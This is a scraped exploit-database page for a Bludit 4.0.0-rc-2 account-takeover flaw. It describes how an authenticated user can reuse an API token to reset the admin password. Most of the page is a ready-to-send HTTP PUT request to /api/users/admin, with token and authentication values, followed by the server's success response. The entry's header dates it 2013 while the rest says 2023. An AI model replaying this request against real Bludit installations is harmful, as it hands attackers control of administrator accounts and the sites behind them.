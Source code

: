 ```yaml
---
title: Bludit 4.0.0-rc-2 Privilege Escalation exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:171808&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-04-12
fetch_date: 2025-10-04T11:29:27.828307
---
```


# Bludit 4.0.0-rc-2 Privilege Escalation exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Bludit 4.0.0-rc-2 Privilege Escalation

2023-04-11 | CVSS 6.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:171808
## Title: Bludit-4.0.0-rc-2 - Release candidate 2 Account takeover:
API token vulnerability
## Author: nu11secur1ty
## Date: 04.11.2013
## Vendor: https://www.bludit.com/
## Software: https://github.com/bludit/bludit/releases/tag/4.0.0-rc-2
## Reference: https://www.cloudflare.com/learning/access-management/account-takeover/
## Reference: https://portswigger.net/daily-swig/facebook-account-takeover-researcher-scoops-40k-bug-bounty-for-chained-exploit

## Description:
The already authenticated attacker can send a normal request to change
his password and then he can use
the same JSON `object` and the vulnerable `API token KEY` in the same
request to change the admin account password.
Then he can access the admin account and he can do very malicious stuff.

STATUS: HIGH Vulnerability

[+]Exploit:
```PUT
PUT /api/users/admin HTTP/1.1
Host: 127.0.0.1:8000
Content-Length: 138
sec-ch-ua: "Not:A-Brand";v="99", "Chromium";v="112"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50
Safari/537.36
content-type: application/json
Accept: */*
Origin: http://127.0.0.1:8000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8000/admin/edit-user/pwned
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: BLUDIT-KEY=98t31p2g0i7t6rscufuccpthui
Connection: close

{"token":"4f8df9f64e84fa4562ec3a604bf7985c","authentication":"6d1a5510a53f9d89325b0cd56a2855a9","username":"pwned","password":"password1"}

```

[+]Response:
```HTTP
HTTP/1.1 200 OK
Host: 127.0.0.1:8000
Date: Tue, 11 Apr 2023 08:33:51 GMT
Connection: close
X-Powered-By: PHP/7.4.30
Access-Control-Allow-Origin: *
Content-Type: application/json

{"status":"0","message":"User edited.","data":{"key":"admin"}}
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/bludit/2023/Bludit-v4.0.0-Release-candidate-2)

## Proof and Exploit:
[href](https://streamable.com/w3aa4d)

## Time spend:
00:57:00
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)